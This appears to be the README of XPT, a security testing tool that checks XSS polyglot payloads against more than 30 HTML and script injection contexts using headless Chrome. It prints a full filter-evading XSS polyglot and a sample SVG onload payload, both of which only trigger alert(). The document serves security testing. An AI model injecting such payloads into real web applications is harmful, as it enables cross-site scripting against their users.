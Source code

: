 
# XPT - XSS Polyglot Tester

XPT is a XSS polyglot testing platform allowing to test an XSS polyglot in more than 30 contexts in less than 1 minute.

This project use Google Chrome headless mode to test the execution of the XSS payload.

[![asciicast](https://asciinema.org/a/Cz5fUApO4TZCLeAKM4TddddUX.png)](https://asciinema.org/a/Cz5fUApO4TZCLeAKM4TddddUX)

## Setup on Debian

~~~sh
# Install Google Chrome
# https://askubuntu.com/questions/79280/how-to-install-chrome-browser-properly-via-command-line
sudo apt-get install libxss1 libappindicator1 libindicator7
wget https://dl.google.com/linux/direct/google-chrome-stable_current_amd64.deb
sudo dpkg -i google-chrome*.deb  # Might show "errors", fixed by next line
sudo apt-get install -f

# Install Node Stable (v8)
curl -sL https://deb.nodesource.com/setup_8.x | sudo -E bash -
sudo apt-get install -y nodejs

# Run Chrome as background process
# https://chromium.googlesource.com/chromium/src/+/lkgr/headless/README.md
# --disable-gpu currently required, see link above
google-chrome --headless --hide-scrollbars --remote-debugging-port=9222 --disable-gpu &

# Clone git repository
git clone https://github.com/xajkep/xpt
cd xpt/

# Create all contexts
python create_all_contexts.py

# Install NodeJS dependencies
npm install

# Start local Web server 
cd server/
php -S 127.0.0.1:8080

# Run tests in all contexts for the given payload
python xpt.py --mode context --xss "<svg/onload=alert()>"
~~~

## Usage

~~~sh
    ____  ________________________
    \   \/  /\______   \__    ___/
     \     /  |     ___/ |    |   
     /     \  |    |     |    |   
    /___/\  \ |____|     |____|   
          \_/  XSS Polyglot Tester
                           @xajkep
    
usage: xpt.py [-h] [--mode MODE] [--xss XSS] [--context CONTEXT] [--list LIST]
              [--verbose VERBOSE]

optional arguments:
  -h, --help         show this help message and exit
  --mode MODE        Accepted values: 'context', 'filter' or 'test'
  --xss XSS          XSS payload
  --context CONTEXT
  --list LIST        List available contexts or filters
  --verbose VERBOSE  Yes or No

~~~

## Run tests

All contexts in `contexts.json` have a test case in order to check if the XSS is possible or not.
You can test them all by running the following commands.
~~~sh
python xpt.py --mode test
~~~

## Default XSS polyglot

~~~html
jaVaSCriPt:/*\\x3csvG/oNloAd=alert()\\x3e*/alert()//</stYle/</tiTle/</texTarEa/</scrIpt/--!><sVg//*`/*\"/*'/**/(_=alert())//\\%0a;alert()//'/oNlOad=alert() OncLick=alert()//>;base64,PHN2Zy9vbmxvYWQ9YWxlcnQoKT4K
~~~

## Contexts

Available contexts:
 * html-element
 * html-attribute-value-double-quoted
 * html-attribute-value-single-quoted
 * html-attribute-value-not-quoted
 * html-attribute-value-not-quoted-htmlescaped
 * html-attribute-name
 * html-comment
 * textarea-element
 * title-element
 * style-element
 * style-multiline-comment
 * script-not-quoted
 * script-double-quoted
 * script-single-quoted
 * script-line-comment
 * script-line-comment-htmlescaped
 * script-multiline-comment
 * script-multiline-comment-htmlescaped
 * script-eval-backticked-htmlescaped
 * script-eval-double-quoted-htmlescaped
 * script-innerhtml-single-quote-htmlescaped
 * href-attribute-not-quoted
 * href-attribute-double-quoted
 * href-attribute-single-quoted
 * href-attribute-single-quoted-htmlescaped
 * external-script
 * external-script-htmlescaped
 * external-script-single-quoted
 * external-script-double-quoted
 * external-script-template-string-backticked
 * iframe-srcdoc-htmlescaped
 * data-uri-texthtml-htmlescaped

You can edit contexts in `contexts.json` file.

## Filters

Available filters:
 * html-comment
 * lowercase-words
 * lowercase-js-event-handlers-format
 * js-event-handlers-format
 * html-closing-tags
 * html-classic-tag-beginning

You can edit filters in `filters.json` file.

## How JS execution is detected ?

In fact, JS execution is not detected, only `alert()` execution is detected.

The nodejs script also simulate user click on the following HTML tags:
~~~html
<div>
<a>
<p>
<input>
<img>
<video>
<button>
<x>
~~~

Click will be done only on the first tag found (for each tags).

## Sources / Resources

 * [Unleashing an Ultimate XSS Polyglot](https://github.com/0xsobky/HackVault/wiki/Unleashing-an-Ultimate-XSS-Polyglot)
 * [HTML5 Security Cheatsheet](https://html5sec.org)
 * [Getting Started with Headless Chrome](https://developers.google.com/web/updates/2017/04/headless-chrome)
